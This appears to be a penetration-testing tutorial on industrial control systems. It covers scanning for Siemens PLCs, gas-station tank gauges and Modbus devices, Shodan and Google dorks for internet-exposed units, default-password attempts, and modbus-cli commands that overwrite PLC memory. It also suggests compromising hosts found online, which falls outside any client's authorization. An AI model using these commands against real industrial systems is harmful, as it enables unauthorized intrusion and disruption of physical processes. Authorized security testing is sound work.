 # Disclaimer:

The following notes are based on scenario that you already have connected yourself to the network of the client/target either compromised it during your pentest activity or the access is granted to the network by your client.

## Tools used:
- netdiscover
- nmap
- snmp-check
- plcscan
- modbus
- ICSSecurityScripts
- Shodan
- metasploit
- Google Dorking
- searchsploit
  

# Let's begin:

### Network Discovery:

Assuming you are on a  `10.1.0.0/24` network.

Let's run `netdiscover` to identify all other devices up in this network range. For that we use the following command:

```sh
netdiscover -r 10.1.0.0/24
```
By default `netdiscover` runs in active mode, checking all hosts in a network. The output will provide you with list of IP addresses reachable in your network, MAC Address, and MAC Vendor or Hostname. MAC Vendor or Hostname determine what type of system is running on that IP and it is important information for your pentest activity.

Once we identify what IP addresses are reachable with your `netdiscover` network, we run `nmap` scan to discover which ports are open on that IP address. We run the following simple command to accomplish this task.

To scan all TCP ports:
```bash
nmap -Pn 10.1.0.11 -p 1-65535 
```

To scan UDP ports
```sh
nmap -Pn 10.1.0.11 -sU -p 1-65535
```
The results from `nmap` will provide you with all open ports on the specific IP Address.

Next, we run `snmp-check` tool to gain more information. You will run this when you have port `161/udp` open on the network. This tool will provide you with information such as vendor name, model series, fimware version, model code, serial number and other network data.

```sh
snmp-check 10.1.0.11
```

### Open Source Tools for Information Gathering:

We use tools such as `Shodan` and `Google Dorking` to identify hosts connected to the internet and accessible remotely. We later try to compromise them. An example of the queries is available below:

Shodan: `port: 102 Siemens SIMANTIC 6ES7`

Google Dork: `inurl:/portal/portal.mwsl`

You may try this and get a gist of what this dorks can provide you with.

Once you identify different portals accessible via the internet, you can try default passowrds to access them.

If you find port `102/tcp` or `502/tcp` open, you can also try default nmap scripts such as `s7-enumerate.nse` or `s7-info.nse` to find more information about the **Simens PLC** devices on the network. This can be achieved using the following command:

```bash
nmap 10.1.0.11 -Pn -p 102 --script s7-info.nse
```

You can also use `plcscan` tool to scan the PLC device. Compared to nmap scan, this can provide you with additional information - Serial Number of the Memory Card. It also attempts to check if port `102/tcp` or `502/tcp` is open and extracts information from those ports.

```bash
python2 plcscan.py 10.1.0.11
```

You can use `msfconsole` to now find for exploits related to Simens and other devices in the metasploit database. You can also use `searchsploit` to find more exploits.

```bash
msf6 > search Simens
```

```bash
searchsploit Simens
```

## Hacking Gas Stations

The communication phase of the gas station inventory works on port `10001`/`scp-config` by default. You can use `shodan` to find these devices. You can also look for device specific function code `I20100` and see how many devices are exposed.

Shodan: `I20100` or `Port:10001 I20100`

Use `nmap` scripts with `atg*.nse` in their name and run against the identified IP addresses. This script can provide you with **tank inventory report**

```bash
nmap 10.1.0.11 -p 10001 --script atg-info.nse
```

You can also use `telnet` to communicate with Tank Gas device on port `10001`. You should now the device specific function code to do this i.e. `I20100` or other based on your pentest scenario. The following command can do this for you:

```bash
telnet 10.1.0.11 10001
# After this command is executed, press CTRL + A, followed by device function code after pressing CTRL + A immediately.
```

Here is a list of all function codes:

```
I20100 - Tank Inventory Report
I20200 - Tank Delivery Report
I20300 - Tank Leak Detect Report
I20400 - Tank Shift Inventory Report
I20500 - Tank Status Report
```

While you are connected to `telnet`, after pressing `CTRL` + `A`, type the above mentioned codes to extract corresponding information.

### Hacking modbus

The modbus will be running on port `502/tcp` with service name `mbap`. It is a communication protocol used in OT systems. If you detect port `502` open, you can perfrom the following steps:

Run the `nmap` script named - `modbus-discover.nse` to extract more information about the protocal.

```bash
nmap 10.1.0.11 -p 502 -Pn --script modbus-discover.nse
```

use `modbus-cli` tool to directly read the memory contents

```bash
modbus read 10.1.0.19 %MW0 10
```

`%MW0` - strating memory address
`10` - iterate next consecutive 10 address data

To manipulate the memory contents, you can again use the `modbus-cli` tool. If let's say you want to owerwrite `0` as memory contents starting from address block 0 to 10, the you have to write 10 consecutive `0`'s as follows

```bash
modbus write 10.1.0.19 %MW0 0 0 0 0 0 0 0 0 0 0
```

This will owerwrite memory block from 0 to 10 with `0` as value

